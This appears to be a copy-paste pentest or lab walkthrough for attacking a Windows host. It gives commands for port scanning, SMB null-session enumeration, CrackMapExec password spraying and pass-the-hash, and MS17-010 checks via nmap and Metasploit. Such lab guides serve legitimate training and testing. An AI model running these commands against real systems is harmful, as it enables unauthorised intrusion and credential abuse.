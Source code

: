 ## Typical command walkthrough (detailed, copy-paste friendly)
Adjust IPs, usernames, and paths as needed.

Set common variables to speed up copy/paste:
```bash
export TARGET=10.10.10.10
export ATTACKER_IP=10.10.14.2
export USER=Administrator
export PASS='Password123!'
```

1) Discovery and fingerprinting
```bash
# Full TCP scan, default scripts, version detection, OS guess
sudo nmap -p- -sS -sC -sV -O -T4 --min-rate 2000 $TARGET

# Focus on Windows-typical ports if you’re time-bound
sudo nmap -p135,139,445,3389,5985,5986 -sC -sV -T4 $TARGET

# SMB vulns and info (some scripts may be deprecated in your distro; use what’s available)
sudo nmap -p445 --script "smb-enum-*,smb2-security-mode,smb2-time" $TARGET
sudo nmap -p445 --script smb-vuln-ms17-010 $TARGET  # if present
```

2) SMB enumeration (shares, users, null sessions)
```bash
# List shares with null session
smbclient -N -L //$TARGET/

# Try connecting to a share
smbclient -N //$TARGET/SHARE

# Deeper enumeration
enum4linux-ng -A $TARGET

# RPC null session (if allowed)
rpcclient -U "" -N $TARGET -c "enumdomusers; enumdomgroups; querydominfo"
```

3) Credential checking and basic spraying (low-and-slow)
```bash
# Validate creds and enumerate shares with CrackMapExec (CME)
cme smb $TARGET -u $USER -p $PASS --shares
cme smb $TARGET -u $USER -p $PASS --local-auth   # if local account

# Try pass-the-hash with NTLM (replace NTHASH)
cme smb $TARGET -u $USER -H NTHASH --shares

# Check password policy (if accessible)
cme smb $TARGET -u $USER -p $PASS --pass-pol
```

4) Check MS17-010 and other SMB weaknesses
```bash
sudo nmap -p445 --script smb-vuln-ms17-010 $TARGET
# Optional Metasploit route (if allowed)
# msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS $TARGET; run; exit"
```
